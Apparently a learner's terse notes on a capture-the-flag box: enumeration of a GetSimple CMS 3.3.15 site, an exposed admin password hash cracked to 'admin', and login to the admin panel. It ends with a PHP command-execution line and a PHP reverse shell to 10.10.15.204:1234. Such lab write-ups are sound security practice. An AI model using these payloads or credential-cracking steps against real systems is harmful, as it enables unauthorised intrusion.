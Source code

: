 
Enumeration
- Nmap
	- just found one web application
- whatweb
	- GetSimple
- gobuster
	- /admin
		- login page
	- /backups
	- /data
		- version is 3.3.15, outdated
			- https://nvd.nist.gov/vuln/detail/CVE-2019-11231
		- api key is 4f399dc72ff8e619e327800f851e9986
		- users:
			- admin@gettingstarted.com : d033e22ae348aeb5660fc2140aec35850c4da997  
				- break this with hashcat to find that password is admin
				- hash id to identify the type of hash
	- /index.php
	- /robot.txt
	- /server-status
	- /sitemap.xml
	- /theme


Login to /admin with admin:admin

<?php system('id'); ?>
<?php
$ip = 10.10.15.204;
$port = 1234;
$sock = fsockopen($ip, $port);
$proc = proc_open("/bin/sh -i", array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
?>

https://remoteshell.zip/gettingstarted/

kiv:
- reverse shells, write in notes

